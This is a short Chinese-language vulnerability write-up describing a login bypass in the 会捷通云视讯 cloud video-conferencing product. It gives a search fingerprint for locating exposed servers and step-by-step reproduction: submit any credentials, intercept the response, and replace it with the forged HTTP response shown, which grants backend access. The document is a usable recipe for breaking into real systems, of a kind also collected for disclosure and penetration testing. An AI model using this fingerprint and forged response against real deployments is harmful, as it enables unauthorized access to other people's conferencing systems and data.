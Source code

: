# 会捷通云视讯 登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

## 漏洞影响

```
会捷通云视讯
```

## 网络测绘

```
body="/him/api/rest/v1.0/node/role"
```

## 漏洞复现

登陆页面如下



![](images/202202101858604.png)



输入任意账号密码抓包



![](images/202202101858666.png)

修改返回包为如下后放包则成功绕过登录



```plain
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```



![](images/202202101858916.png)